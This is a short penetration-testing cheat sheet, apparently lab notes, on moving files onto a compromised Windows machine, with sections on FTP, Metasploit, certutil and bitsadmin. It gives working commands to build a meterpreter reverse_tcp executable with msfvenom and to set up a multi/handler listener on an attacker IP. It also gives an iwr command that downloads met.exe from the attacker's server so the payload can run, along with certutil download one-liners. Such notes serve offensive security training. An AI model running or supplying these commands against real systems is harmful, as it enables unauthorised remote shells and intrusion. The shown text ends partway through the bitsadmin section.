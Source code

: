 
##### FTP / TFTP

start ftp server and upload/download files

##### metasploit

create meterpreter shell and use upload and download modules
create payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<host> LPORT=<port> -f exe -o met.exe
```

in msfconsole use  multi/handler
```
use multi/handler
```

configuration
```
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.45.208
set LPORT 443
```

as marcus download met.exe from the python server we create and execute it
```
iwr -uri http://192.168.45.208:8000/met.exe -Outfile met.exe
```


##### certutil

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

```
certutil -urlcache -split -f http://<ip>:<port>/<s_file> <d_file>
certutil.exe -urlcache -split -f http://<ip>:<port>/<s_file> <d_file>
```


##### bitsadmin

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```
